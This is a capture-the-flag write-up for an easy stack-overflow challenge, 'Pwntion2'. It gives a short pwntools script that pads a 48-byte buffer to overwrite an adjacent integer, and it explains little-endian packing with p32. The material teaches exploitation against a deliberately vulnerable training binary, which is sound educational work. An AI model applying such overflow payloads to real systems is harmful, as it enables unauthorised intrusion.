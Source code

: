 # Writeup for Pwntion2

## Task description

**Points: 75**

**Author: maritio_o**

**Difficulty: n00b/easy**

**Category: pwn**

---

_"Remember those lectures about Pwnie? Now is your chance to show what you've
learned!"_
    
—Professor maritio\_o

Our beloved house elf is unfortunate to be vulnerable to the
stack overflow pwntions. 

This time, we want you to take the given ingredients and 
brew the pwntion so that his ears turns equally large as the
nose?

```
nc pwntion2.tghack.no 1062
```

<details><summary>Tips</summary><p> 

1. The file expects to read a file called `banner.txt`. For the binary to
work locally, you should make a file with that name and put whatever you
would like into it.

2. Read the Stack Overflow pt. 2 section in the
Introduction to Pwntions tutorial to learn about this
type of stack overflow problem.
    </p></details>

---

## Writeup

In this task, you are presented with the following files:
* `pwntion2`: binary file
* `pwntion2.c`: C language source code

As the tutorial presents the steps to solve this type of stack overflow 
tasks, I will only present my Python solution script. In the script, I
use **pwntools** to make it easy to setup the script, debug locally on
my machine, and send the solution to the remote server. Here is my 
solution:

```python
from pwn import *

debug = True
if debug == True:
    r = process("./pwntion2")
else:
    r = remote("pwntion2.tghack.no", 1062)

r.recvuntil("Student:\n")
r.sendline("A"*48 + "\x01\x00\x00\x00")

r.interactive()
```

As a short recap, we need to overwrite the values on the stack so that the
`is_magical_question` is changed from 0 to 1. In the script, we do that by 
padding with 48 "A"'s, and then add the hexadecimal value of `1`. We pad 
with 48 because the buffer has room for 48 bytes, and then the next value 
on the stack is the `is_magical_question` value.  

Overwriting the `is_magical_question` variable isn't as straight-forward as 
simply sending 48 A's followed by a 1 like this:
```python
r.sendline("A"*48 + str(1))
```
We have to overwrite the number using a 4-byte little-endian representation of the
number. The value must be 4 bytes, since `int`s are 4-byte in size. Little-endian 
refers to the way values are laid out in system memory. For 32-bit x86, values are 
stored starting with the *least significant byte* first! See [this article on endianness](https://en.wikipedia.org/wiki/Endianness#Little) for more information.

When overwriting data like this, it's common to represent data using hex strings, 
like this:
```python
a = "\x41\x41\x41\x41" # the string AAAA
b = "\xef\xbe\xad\xde"  # the value 0xdeadbeef
```
Note that we start with `\xef`, not `\xde`, since the values are stored in little-endian 
format.
Thus, to represent the value `1` as a 4-byte little-endian value we write it like this: 
`\x01\x00\x00\x00`.

This operation is very common when doing exploit development, so pwntools has some nice 
helper functions for. These are called `p16`, `p32`, and `p64`, and turns numbers into 16, 
32, and 64 bit little-endian byte values, respectively. The p stands for `packed`.

```python
r.sendline("A"*48 + p32(1))
```

